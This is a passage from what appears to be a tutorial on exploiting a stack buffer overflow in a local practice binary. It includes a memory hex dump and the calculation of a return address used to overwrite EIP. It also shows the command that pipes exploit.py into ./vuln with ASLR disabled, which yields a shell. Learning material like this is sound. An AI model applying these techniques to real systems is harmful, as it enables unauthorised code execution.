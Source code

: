 vs:

```
...
00074f50: 00000000 2cfee1f7 0cceffff 60cbfff7  ....,.......`...
00074f60: 40cdffff 8c615556 38cdffff 41424344  @....aUV8...ABCD
00074f70: 00000000 48cdffff 9a615556 00000000  ....H....aUV....
...
```

The second result is more likely to contain the EBP and ESP.
We will use `0xffffcd48` (which is taken from `0xffffcd38` by adding 16 bytes) as the new return address

Replace the EIP in the script with the correct return address, we can now rerun the exploit:

```python
$ python exploit.py | setarch $(uname -m) -R ./vuln
sh-5.2$ uname -a
Linux NuclearChicken 6.7.4-arch1-1 #1 SMP PREEMPT_DYNAMIC Mon, 05 Feb 2024 22:07:49 +0000 x86_64 GNU/Linux
```

And voila!
We got a shell!

To conclude, there is not much difference in doing this method compared to GDB aside from automating the exploitation.
The difficulty of running the program outside GDB lies on the ASLR (if enabled) and computers allocating memory differently.
Aside from that, for the shellcode, there is no need to include the NOPs.
